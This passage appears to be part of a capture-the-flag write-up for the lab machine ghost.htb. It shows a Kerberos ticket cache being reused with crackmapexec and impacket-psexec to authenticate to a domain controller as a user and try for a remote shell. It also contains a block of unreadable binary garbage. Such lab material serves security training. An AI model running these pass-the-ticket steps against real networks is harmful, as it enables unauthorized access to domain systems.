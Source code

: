 ```console
                                                                                                       ��yA룕I�|����gs�'l#��\�����z���.�&�}��ɮ���ˢ4'���i�������BQe��q�3��0#���e�ȵ���
                                                                                                                                                                                    @V��_�J����=��Ԗg^���s[     �vj��y\ޥ&�i�+�G��gJ�o�t��bM6���5��=�����\��rG`�U�����P�+F�B��QJ��0�c��̕����3~��k������(���-����-ͯS�zT$�Q�)!<^諸�%��|�^-w����Ѱ���B�bZ��u�{��=
```

Testing ticket:

```console
root@kali:~# export KRB5CCNAME=/tmp/krb5cc_50

root@kali:~# crackmapexec smb DC01.ghost.htb --use-kcache
SMB         ghost.htb       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         ghost.htb       445    DC01             [+] ghost.htb\ from ccache

root@kali:~# crackmapexec ldap DC01.ghost.htb --use-kcache
SMB         ghost.htb       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
LDAP        ghost.htb       389    DC01             [+] ghost.htb\florence.ramirez from ccache

root@kali:~# impacket-psexec GHOST.HTB/florence.ramirez@DC01.ghost.htb -k -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on DC01.ghost.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
[-] share 'Users' is not writable.
```

> [!Note]
>
> Specifying to use kerberos cache for:
> - `crackmapexec smb`: `--use-kcache` - Use Kerberos authentication from ccache file (`KRB5CCNAME`) (different from `-k` / `--kerberos`)
> - `impacket-psexec`:
>   - `-no-pass` - don't ask for password (useful for `-k`)
>   - `-k` - Use Kerberos authentication. Grabs credentials from ccache file (`KRB5CCNAME`) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
